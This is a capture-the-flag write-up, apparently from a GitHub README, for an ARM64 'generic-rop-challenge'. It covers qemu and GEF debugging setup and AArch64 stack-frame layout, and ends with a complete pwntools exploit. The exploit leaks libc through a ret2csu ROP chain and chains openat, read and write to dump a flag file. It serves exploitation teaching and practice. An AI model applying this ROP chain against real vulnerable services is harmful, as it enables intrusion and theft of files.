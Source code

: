 # generic-rop-challenge

<div class="hidden">
    <details>
        <summary>Keywords</summary>
            ARM64, aarch46, ROP, ret2csu
    </details>
</div>

> [!WARNING]
> Not sure why the exploit does not work in non-debug mode locally, but works for local debug-mode and remote non-debug

## aarch64 (ARM64)

### Tools

References: <https://docs.pwntools.com/en/stable/qemu.html>

Debugging (**choose either one**):

- gdb-multiarch: `sudo apt-get install gdb-multiarch`
- gcc toolchain (with gdb): <https://github.com/xpack-dev-tools/aarch64-none-elf-gcc-xpack/>

Running:

- qemu: `sudo apt-get install qemu-user-static`
- libs: `sudo apt-get install libc6-arm64-cross` installs to `/usr/aarch64-linux-gnu/`

Running the binary

```sh
# non-debug mode
qemu-aarch64-static ./binary

# debug mode (gdbserver) on port 1234
qemu-aarch64-static -g 1234 ./binary

# in case of the loader not provided (`ld-linux-aarch64.so.1`), use the loader from `libc-arm64-cross`
qemu-aarch64-static -L /usr/aarch64-linux-gnu/ ./binary
```

Attach debugger with `GEF`

```sh
gef➤  gef-remote --qemu-user localhost 1234
```


### Assembly

References: <http://blog.perfect.blue/ROPing-on-Aarch64>

#### Registers

- `x0` to `x7` are used to pass arguments
- `x29` is equivalent to `rbp` in `x86`
- `x30` stores return address

#### Function Prologue

Pre-indexed performs the offset operation then the assembly instruction:

- Add `N` to `sp` (`sp = sp + N`)
- Stores old frame pointer, `x29`, to `[sp]` and return address, `x30`, to `[sp + 8]`

```armasm
stp x29, x30, [sp, #N]!  ; pre-indexed [base, #offset]!
mov x29, sp
```

#### Function Epilogue

Post-indexed performs the assembly instruction then the offset operation

- Load `[sp]` to `x29` and `[sp + 8]` to `x30`
- Add `N` to `sp` (`sp = sp + N`)

```armasm
ldp x29, x30, [sp], #N  ; post-indexed [base], #offset
```

#### Stack Layout

```text
+--------------------------+ ^ Lower memory address
| callee's saved x29       | |
+--------------------------+ |
| callee's saved x30       | |
+--------------------------+ | Stack growth direction
| callee's local variables |
+--------------------------+
| caller's saved x29       |
+--------------------------+
| caller's saved x30       |
+--------------------------+
| caller's local variables |
+--------------------------+   Higher memory address
```

Unlike in `x86` where saved `rbp` and `rip` are below the local variables which allow us to overwrite the saved `rip` and immediately return to our desired address,
in `ARM64` we overwrite the callers's return address instead due to the stack layout which means that we would first return normally to the caller and only then return to our desired address

## Solution

```py
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

ld = ELF("./ld-linux-aarch64.so.1")
libc = ELF("./libc.so.6")
elf = context.binary = ELF("./vuln")


def start(argv=[], *a, **kw):
    global flag_path
    host = args.HOST or 'generic-rop-challenge.chal.imaginaryctf.org'
    port = int(args.PORT or 42042)
    if args.REMOTE:
        flag_path = b"/home/user/flag.txt\x00"
        return remote(host, port)
    if args.GDB:
        flag_path = b"/run/shm/flag.txt\x00"
        return process([qemu, "-g", str(debug_port), elf.path])
    else:
        flag_path = b"/run/shm/flag.txt\x00"
        return process([qemu, elf.path] + argv, env=env, *a, **kw)


env = {}
qemu = "/usr/bin/qemu-aarch64-static"
debug_port = 1234
flag_path = b""
io = start()

pad = 80 - 0x10
main_x29 = b"BBBBBBBB"
bss = elf.bss(0x200)

csu_1 = 0x400948
csu_2 = 0x400928


def ret2csu(w0, x1, x2, func_ptr, next_gadget):
    payload = b"A" * pad + main_x29 + p64(csu_1)
    payload += flat(bss, p64(csu_2))
    payload += flat(0, 1)  # x19, x20
    payload += flat(func_ptr, w0)  # x21, x22
    payload += flat(x1, x2)  # x23, x24
    payload += flat(bss, next_gadget)
    return payload


# Leak LIBC
payload = ret2csu(elf.got["puts"], 0, 0, elf.got["puts"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
leak_puts = u64(io.recvline(keepends=False).ljust(8, b"\x00"))
if not args.REMOTE:
    leak_puts |= 0x4000000000
log.info(f"{leak_puts=:#x}")

libc.address = leak_puts - libc.symbols["puts"]
log.info(f"{libc.address=:#x}")

# gets(bss) // stdin: /home/user/flag.txt
pause()
log.info(f"setup flag path string @ bss + 0x500")
log.info(f"{flag_path=}")
flag_path_addr = elf.bss(0x500)
payload = ret2csu(flag_path_addr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(flag_path)  # absolute path to ignore `dirfd` for `openat`

# gets(bss) // stdin: libc.symbols["openat"]
openat_fptr = elf.bss(0x600)
log.info(f"setup openat function pointer @ bss + 0x600")
payload = ret2csu(openat_fptr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(p64(libc.symbols["openat"]))

# fini_ptr = 0x400e20

# openat(0, flag_path_addr, 0)
log.info(f"openat(0, flag_path_addr, 0)")
payload = ret2csu(0, flag_path_addr, 0, openat_fptr, elf.symbols["main"])
io.sendlineafter(b"below\n", payload)

# gets(bss) // stdin: libc.symbols["read"]
read_fptr = elf.bss(0x600)
log.info(f"setup read function pointer @ bss + 0x600")
payload = ret2csu(read_fptr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(p64(libc.symbols["read"]))

# read(5, flag_addr, 0x100)
flag_addr = elf.bss(0x700)
log.info(f"read(5, flag_addr, 0x100)")  # trial-and-error to find the proper fd
payload = ret2csu(5, flag_addr, 0x100, read_fptr, elf.symbols["main"])
io.sendlineafter(b"below\n", payload)

# gets(bss) // stdin: libc.symbols["write"]
write_fptr = elf.bss(0x600)
log.info(f"setup write function pointer @ bss + 0x600")
payload = ret2csu(write_fptr, 0, 0, elf.got["gets"], elf.symbols["main"])
io.sendlineafter(b"below\n", payload)
io.sendline(p64(libc.symbols["write"]))

# write(1, flag_addr, 0x100)
payload = ret2csu(1, flag_addr, 0x100, write_fptr, elf.symbols["main"])
io.sendlineafter(b"below\n", payload)

io.interactive()
```
